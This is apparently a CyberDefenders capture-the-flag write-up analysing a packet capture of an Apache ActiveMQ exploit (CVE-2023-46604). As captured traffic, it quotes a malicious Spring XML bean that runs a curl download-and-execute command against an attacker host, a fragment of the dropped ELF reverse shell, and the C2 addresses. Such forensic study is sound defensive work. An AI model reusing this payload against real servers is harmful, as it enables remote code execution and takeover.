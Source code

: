 ```yaml
---
title: '[Cyberdefenders] - OpenWire'
date: '07/04/2024'
lastmod: '07/04/2024'
tags: ['Network Analysis', 'PCAP', 'CVEs']
summary: 'Here is my writeup for OpenWire that I completed on Cyberdefenders.'
draft: false
author: ['H4shBadG']
---
```


# Summary

During your shift as a tier-2 SOC analyst, you receive an escalation from a tier-1 analyst regarding a public-facing server. This server has been flagged for making outbound connections to multiple suspicious IPs. In response, you initiate the standard incident response protocol, which includes isolating the server from the network to prevent potential lateral movement or data exfiltration and obtaining a packet capture from the NSM utility for analysis. Your task is to analyze the pcap and assess for signs of malicious activity.

## Q1 - By identifying the C2 IP, we can block traffic to and from this IP, helping to contain the breach and prevent further data exfiltration or command execution. Can you provide the IP of the C2 server that communicated with our server?

During the analysis of the PCAP file, I came across this communication :

```
GET /invoice.xml HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/11.0.21
Host: 146.190.21.92:8000
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Date: Tue, 12 Dec 2023 13:38:28 GMT
Content-type: application/xml
Content-Length: 816
Last-Modified: Tue, 12 Dec 2023 13:37:45 GMT

<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <!--value>open</value>
                <value>-a</value>
                <value>calculator</value -->
                <value>bash</value>
                <value>-c</value>
                <value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

I identified 2 details that bring my attention such as the User-Agent being SimpleHTTP from Python module and the fact that it get an XML file. The second fact is very suspicious as we can observe in the TCP Stream N*0 that the victim server is running Spring Framework ([which is updated by an XML...](https://docs.spring.io/spring-framework/docs/4.2.x/spring-framework-reference/html/xsd-configuration.html)) :

```
Borg.springframework.context.support.ClassPathXmlApplicationContext..%http://146.190.21.92:8000/invoice.xml
```

Response : 146.190.21.92

## Q2 - Initial entry points are critical to trace back the attack vector. What is the port number of the service the adversary exploited?

Looking through the first packets of the PCAP, I found the following packets.

```
...R.ActiveMQ........@...
..StackTraceEnabled....PlatformDetails	..Java..CacheEnabled....TcpNoDelayEnabled....SizePrefixDisabled...	CacheSize.......ProviderName	..ActiveMQ..TightEncodingEnabled....MaxFrameSize......@....MaxInactivityDuration.......u0. MaxInactivityDurationInitalDelay.......'...MaxFrameSizeEnabled....ProviderVersion	..5.18.0.
```

These communication seems to execute a loading of the XML on the C2 (look at the packet 92)

Response: 61616

## Q3 - Following up on the previous question, what is the name of the service found to be vulnerable?

Looking at the header of the attack, I have seen some name :

```
..R.ActiveMQ........@...
```

With little research, ActiveMQ is a service provided by [Apache](https://activemq.apache.org/)

Response: Apache ActiveMQ

## Q4 - The attacker's infrastructure often involves multiple components. What is the IP of the second C2 server?

In the second phase of the attack, we can see a second IP used to retrieve a reverse shell. Like this communication :

```
GET /docker HTTP/1.1
Host: 128.199.52.72
User-Agent: curl/7.68.0
Accept: */*

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Date: Tue, 12 Dec 2023 13:38:28 GMT
Content-type: application/octet-stream
Content-Length: 250
Last-Modified: Tue, 12 Dec 2023 12:23:04 GMT

.ELF..............>.....x.@.....@...................@.8...........................@.......@.............|...............1.j	X...H..M1.j"AZj.Z..H..xQj
AYPj)X.j._j.^..H..x;H.H........\QH..j.Zj*X..YH..y%I..t.Wj#Xj.j.H..H1...YY_H..y.j<Xj._..^j~Z..H..x...
```

Response : 128.199.52.72

## Q5 - Attackers usually leave traces on the disk. What is the name of the reverse shell executable dropped on the server?

Getting the reverse shell through HTTP exportable objects, I got some ELF executable named docker. Howerever it seems quite empty but it's the only file getting grabbed from the new C2.

Response: Docker

## Q6 - What Java class was invoked by the XML file to run the exploit?

The answer to this question is explained in this article and can be viewed in the packet 14 :

```
 <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
 ```

Response: java.lang.ProcessBuilder

## Q7 - To better understand the specific security flaw exploited, can you identify the CVE identifier associated with this vulnerability?

Asking the internet, this attack seems related to [this one](https://exp10it.io/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/)

Response: CVE-2023-46604

## Q8 - What is the vulnerable Java method and class that allows an attacker to run arbitrary code? (Format: Class.Method)

Looking at this same article, the vulnerability is explained and the vulnerable method is inherited from the `validateIsThrowable` function.

Response: BaseDataStreamMarshaller.createThrowable